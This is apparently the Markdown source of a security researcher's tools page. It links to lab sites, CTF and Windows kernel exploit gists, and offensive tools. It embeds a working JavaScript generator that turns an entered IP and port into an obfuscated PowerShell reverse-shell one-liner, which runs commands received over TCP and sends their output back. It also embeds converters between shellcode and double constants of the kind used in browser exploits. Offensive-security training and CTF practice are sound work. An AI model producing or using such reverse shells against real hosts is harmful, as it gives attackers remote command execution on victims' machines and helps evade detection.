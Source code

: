 ```yaml
---
# the default layout is 'page'
icon: fas fa-tools
order: 4
---
```


## Labs

- <https://vulnlab.com>

## Useful

- <https://wiki.vulnlab.com>
- [resh.py](https://gist.github.com/xct/ab71d58a29e9017eb38565e32aeb95b0)

## Shelf

- <https://github.com/xct/winssh>
- <https://github.com/xct/hashgrab>
- <https://github.com/xct/rcat>
- <https://github.com/xct/winpspy>

## Exploits

**Recent**

- [LACTF Rickroll Format String Exploit](https://gist.github.com/xct/0be84416307b66168f050cb9da64c5c4)
- [IdekCTF 2023 Typop (ROP, CSU)](https://gist.github.com/xct/5c4be3073ba76fea3a52d03a84cf0350)
- [Real World CTF 2023 NonHeanvyFTP (Race Condition)](https://gist.github.com/xct/f17488f42d48014a5dcc060714dbec1a)
- [ShaktiCTF 2022 PhrackCrack (Heap – House of Force)](https://gist.github.com/xct/88db526da32d492f3818d15942bbb39b)
- [ShaktiCTF 2022 Ropworks (ROP)](https://gist.github.com/xct/a2547024ea0922398450c71a44692955)
- [GlacierCTF 2022 (Heap – Fastbin Dup)](https://gist.github.com/xct/87ee193e28f66813a9e309cf29a4bc3c)
- [SquareCTF 2022 (Yara / Valgrind)](https://gist.github.com/xct/9b60d9255afe400dd0ce7bb774e613ec)
- [Ekoparty 2022 (Windows, ROP](https://gist.github.com/xct/c4569bd15ad85ea1b5917325b203e15b)
- [MTS HW Driver EOP (Windows, Kernel)](https://gist.github.com/xct/7d192b448793fc6decb4b59c5382bd61)

**Windows Kernel Practice**

- [Null Pointer Dereference Win7 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdNullPointerMIWin7x64.cpp)
- [Pool Overflow Win7 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdPoolOverflowWin7x64.cpp)
- [Stack Overflow Win10 , GS, Version 2, Version 3 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdStackOverflowACLMI.cpp)
- [Type Confusion Win10, Version 2 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdTypeConfusionMI.cpp)
- [Use-after-free Win10 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdUAFMI.cpp)
- [Arbitrary Read/Write Win10 , Low Integrity, x64 Gigabyte Driver](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/GigabyteDriverMI.cpp)
- [Arbitrary Write Win10 x64 HEVD](https://github.com/xct/windows-kernel-exploits/blob/main/windows-exploits/HevdArbitraryWriteMI.cpp)

**Chrome**

- [StarCTF OOB custom patched Chromium, out-of-bounds access, renderer RCE](https://gist.github.com/xct/795216846c75c625fc10bf10d23982e6)

**Firefox**

- [Midenios custom patched Firefox, out-of-bounds access, renderer RCE](https://gist.github.com/xct/f339058bcb946fb8efd6df00cfb81a0d)

## PowerShell Shell Generator

<div>
    <label for="ip">IP Address:</label>
    <input type="text" id="ip" placeholder="Enter IP" />
    <label for="port">Port:</label>
    <input type="text" id="port" placeholder="Enter Port" />
    <button onclick="generateCode()">Generate PowerShell</button>
</div>
<hr>
<div id="output" class="generated-code"></div>

<script>
    // Function to generate random variable names
    function getRandomVariable() {
        const chars = 'abcdefghijklmnopqrstuvwxyz';
        let varName = '';
        for (let i = 0; i < Math.floor(Math.random() * 5) + 5; i++) {
            varName += chars[Math.floor(Math.random() * chars.length)];
        }
        return varName;
    }

    // Function to generate a correct byte array
    function generateByteArray(variableName) {
        // Ensuring the byte array is initialized correctly with a fixed size
        return `[byte[]]$${variableName} = New-Object byte[] 65535;`;
    }

    // Function to generate random PowerShell script as one-liner
    function generateCode() {
        const ip = document.getElementById("ip").value;
        const port = document.getElementById("port").value;

        if (!ip || !port) {
            alert("Please enter both IP and port");
            return;
        }

        const varClient = getRandomVariable();
        const varStream = getRandomVariable();
        const varBytes = getRandomVariable();
        const varData = getRandomVariable();
        const varSendback = getRandomVariable();
        const varSendback2 = getRandomVariable();
        const varSendbyte = getRandomVariable();
        const varI = getRandomVariable();
        const varEncoding = Math.random() < 0.5 ? "ASCII" : "UTF8";
        const flushMethod = Math.random() < 0.5 ? "$stream.Flush();" : "[System.Threading.Thread]::Sleep(100);";

        // Correct byte array initialization
        const byteArrayInit = generateByteArray(varBytes);

        // Template for PowerShell code (as a one-liner)
        const powershellTemplate = `
$${varClient}=New-Object System.Net.Sockets.TCPClient("${ip}",${port});$${varStream}=$${varClient}.GetStream();${byteArrayInit}while(($${varI}=$${varStream}.Read($${varBytes},0,$${varBytes}.Length)) -ne 0){$${varData}=(New-Object -TypeName System.Text.${varEncoding}Encoding).GetString($${varBytes},0,$${varI});$${varSendback}=try{iex $${varData} 2>&1 | Out-String}catch{\$_};$${varSendback2}=$${varSendback}+"[>] ";$${varSendbyte}=([text.encoding]::${varEncoding}).GetBytes($${varSendback2});$${varStream}.Write($${varSendbyte},0,$${varSendbyte}.Length);${flushMethod}};$${varClient}.Close();
        `.replace(/\s+/g, ' ').replace(/\s?;\s?/g, ';').replace(/\s?{\s?/g, '{').trim();

        document.getElementById("output").innerText = powershellTemplate;
    }
</script>




## Shellcode Converter

**Shellcode to Double Constants**

<script>
function b2d(byteArr) {
	if(byteArr.length != 8) {
    	alert('Needs to be an 8 bytes long array');
    }
    const bytes = new Uint8Array(byteArr);
    const doubles = new Float64Array(bytes.buffer);
    return doubles[0];
}

function inputToDouble(){
	let input = document.getElementById("inputToDouble").value;
	let parsed = input.split(",");

	let result = [];	
	let i = 0;
	for(token of parsed){
		result.push(parseInt(token, 16));
		i += 1;
	}
	let convs = [];
	const chunkSize = 8;
	for (let i = 0; i < result.length; i += chunkSize) {
	    const chunk = result.slice(i, i + chunkSize);
	    // fill up if < 8
	    for(let j=chunk.length; j<8;j++){
	    	chunk.push(0x90);
	    }
	    convs.push(chunk);
	}
	let outStr = "";
	for(c of convs){
		let conv = b2d(c);
		if(conv)
			outStr += `${conv}\n`
	}
	document.getElementById("inputToDouble").value = outStr;
	return false;
}
</script>

<textarea id="inputToDouble" name="inputToDouble" rows="10" cols="80" placeholder="Example:
0x41,0x41,0x41,0x41,0x41,0x41,0x41,0x41.."></textarea>

<form onsubmit="return inputToDouble();" form="jsShellcodeForm">
    <input type="submit" value="Convert">
</form>


**Double Constants to Shellcode**

<script>
function hexdump(arr){
    function pad(num, size) {
        num = num.toString();
        while (num.length < size) num = "0" + num;
        return num;
    }
    let s = ""
    for(v of arr){
        if(v<0){
            v = v+256;
        }
        s += "0x"+pad(v.toString(16),2)+","
    }    
    return s
}

function inputFromDouble(){
	let input = document.getElementById("inputFromDouble").value;
	let parsed = input.split("\n");
	let doubles = []
	for(token of parsed){
		doubles.push(parseFloat(token));
	}
	let outStr = "";
	for(double of doubles){
		var buffer = new ArrayBuffer(8);     
	    var longNum = new Float64Array(buffer);
	    longNum[0] = double;
	    var byteArr = Array.from(new Int8Array(buffer));
	    outStr += hexdump(byteArr)
	}
	outStr = outStr.substring(0, outStr.length-1);
	document.getElementById("inputFromDouble").value = outStr;
	return false;
}
</script>

<textarea id="inputFromDouble" name="inputFromDouble" rows="10" cols="80" placeholder="Example:
6.867659397734779e+246
7.806615353364766e+184
.."></textarea>

<form onsubmit="return inputFromDouble();" form="jsDoubleForm">
    <input type="submit" value="Convert">
</form>